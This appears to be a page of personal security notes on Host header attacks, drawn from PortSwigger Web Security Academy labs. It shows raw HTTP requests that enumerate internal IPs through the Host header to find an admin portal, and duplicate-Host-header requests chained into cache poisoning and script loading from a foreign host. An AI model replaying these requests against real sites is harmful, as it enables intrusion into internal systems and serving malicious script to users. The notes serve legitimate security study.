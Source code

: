 [^host-header-SSRF]: https://portswigger.net/research/cracking-the-lens-targeting-https-hidden-attack-surface

Exploited [ambiguity](Host%20Header%20attacks.md#Exploit%20ambiguity) to enumerate the internal network and discover an administration portal:
```http
GET https://0a5700d603fc9a86808cf87d00ba00be.web-security-academy.net/ HTTP/1.1
Host: 192.168.0.199


HTTP/1.1 504 Gateway Timeout
```

```http
GET https://0a5700d603fc9a86808cf87d00ba00be.web-security-academy.net/ HTTP/1.1
Host: 192.168.0.200


HTTP/1.1 302 Found
Location: /admin
```

---

## Use vulnerability chain

### Host Header Injection + Web Cache Poisoning + Reflected XSS

Detected a [Cross-Site Scripting (XSS)](Cross-Site%20Scripting%20(XSS).md) based on Host header injection:

```http
GET /?a=b HTTP/1.1
Host: 0a5a00a0035877c0818211aa0074003d.web-security-academy.net
Host: foo.bar
Cookie: _lab=46%7cMCwCFDO1vXyxbdpTMn6a9TKzPLqRewSwAhR47UMDsAb2dLEQ9OyvZBSHlf6tJw2fD7zJesbo%2fSc4xBTQ37jbLhks5HuVIlGvsvOHiRnPURTRK9bqYOVOTZfRbdXI10zltbK9iC2GbP2%2fTaIHIHIZAYxSnOWkFtGxg8M8kuv1zTBJW1A%3d
Cache-Control: max-age=0


HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
...
<script type="text/javascript" src="//foo.bar/resources/js/tracking.js">
...
```

Detected also a [Web Cache Poisoning](Web%20Cache%20Poisoning.md) vulnerability which use the query string as a cache-buster:

```http
GET /?a=b HTTP/1.1
Host: 0a5a00a0035877c0818211aa0074003d.web-security-academy.net
Host: foo.bar

HTTP/1.1 200 OK
Cache-Control: max-age=30
Age: 0
X-Cache: miss



GET /?a=b HTTP/1.1
Host: 0a5a00a0035877c0818211aa0074003d.web-security-academy.net
Host: foo.bar

HTTP/1.1 200 OK
```

[^xff]: [What Is X-Forwarded-for and When Can You Trust It?](../../Readwise/Articles/HTTP%20Toolkit%20-%20What%20Is%20X-Forwarded-for%20and%20When%20Can%20You%20Trust%20It.md)
[^conn-attacks]: https://portswigger.net/research/browser-powered-desync-attacks#state
